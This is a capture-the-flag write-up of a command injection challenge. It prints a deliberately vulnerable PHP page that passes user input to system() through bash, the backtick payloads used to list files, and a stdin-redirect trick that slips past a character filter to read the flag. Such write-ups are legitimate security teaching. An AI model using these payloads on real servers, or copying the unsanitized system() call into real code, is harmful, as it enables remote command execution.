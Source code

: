 # echo

Thank you to `N1z0ku` and [noFF](https://github.com/srinivas991) for their hints!

## Escaping

Using \`something\` we get command injection. Running \`ls\` we can see `index.php` in the current directory. We can `cat` it out!:
```
`cat index.php`
``` 

```php
 <?php
 $to_echo = $_REQUEST['echo'];
 $cmd = "bash -c 'echo " . $to_echo . "'";
 if (isset($to_echo)) {
     if ($to_echo == "") {
         print "Please don't be lame, I can't just say nothing.";
     } elseif (
         preg_match('/[#!@%^&*()$_+=\-\[\]\';,{}|":>?~\\\\]/', $to_echo)
     ) {
         print "Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:(";
     } elseif ($to_echo == "cat") {
         print "Meowwww... Well you asked for a cat didn't you? That's the best impression you're gonna get :/";
     } elseif (strlen($to_echo) > 15) {
         print "Man that's a mouthful to echo, what even?";
     } else {
         system($cmd);
     }
 } else {
     print "Alright, what would you have me say?";
 }
  ?>
```
In the source code we can see why this works. As our input is in: `"bash -c 'echo " . $to_echo . "'";` and \`\` is a type of bash expansion. 

## Exploitation

Now we can have a look at the parent directory: 
```
`ls ../`
```
Which shows: `flag.txt html`</br>
How can we read `flag.txt`? From the source code we know that our input must be under smaller or equal to 15 characters. So the following doesn't work (and I tried it all):
```
less ../flag.txt
more ../flag.txt
cat ../flag.txt
nl ../flag.txt
```
Time to look at the regex, don't you think? Almost everything is missing.... except for one thing. `<` the redirect to stdin operator. And we would redirect it straight to the `echo` command!
```
`< ../flag.txt`

flag{1beadaf44586ea4aba2ea9a00c5b6d91}
```
Yes!